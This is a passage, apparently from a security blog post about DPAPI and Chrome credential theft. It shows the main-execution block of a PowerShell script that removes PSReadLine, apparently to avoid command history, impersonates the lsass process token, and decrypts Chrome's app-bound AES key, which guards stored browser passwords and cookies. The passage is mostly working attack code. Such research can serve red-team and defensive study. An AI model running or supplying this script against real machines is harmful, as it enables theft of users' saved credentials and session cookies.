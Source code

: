 ```powershell
    }
}

# Main execution
Write-Host "`n=================================================="
Write-Host "CHROME AES KEY DECRYPTION VIA CNG WITH XOR"
Write-Host "==================================================`n"

Write-Host "[*] Remove-Module: Removing PSReadLine"
Remove-Module PSReadLine -Force -ErrorAction SilentlyContinue
Write-Host "[+] Remove-Module: PSReadLine removed"

Write-Host "[*] ImpersonateProcessToken: Impersonating lsass process token"
if (-not [SecurityInterop]::ImpersonateProcessToken("lsass")) {
    Write-Host "[-] ImpersonateProcessToken: Impersonation failed"
    exit 1
}
Write-Host "[+] ImpersonateProcessToken: Process token impersonation successful"
Write-Host "[*] Current security context: $([Security.Principal.WindowsIdentity]::GetCurrent().Name)"

Write-Host "[*] Starting AES key decryption process"
try {
    if ($args.Count -gt 0) {
        $finalKey = Get-DecryptedAesKey -EncryptedKeyHex $args[0]
    } else {
        $finalKey = Get-DecryptedAesKey
    }
    Write-Host "[+] AES key decryption completed successfully`n"
}
catch {
    Write-Host "[-] Error: $($_.Exception.Message)`n" -ForegroundColor Red
}
```

![image-20250930160009083](/assets/posts/2025-09-30-a-journey-into-dpapi-and-chrome-theft/image-20250930160009083.png)
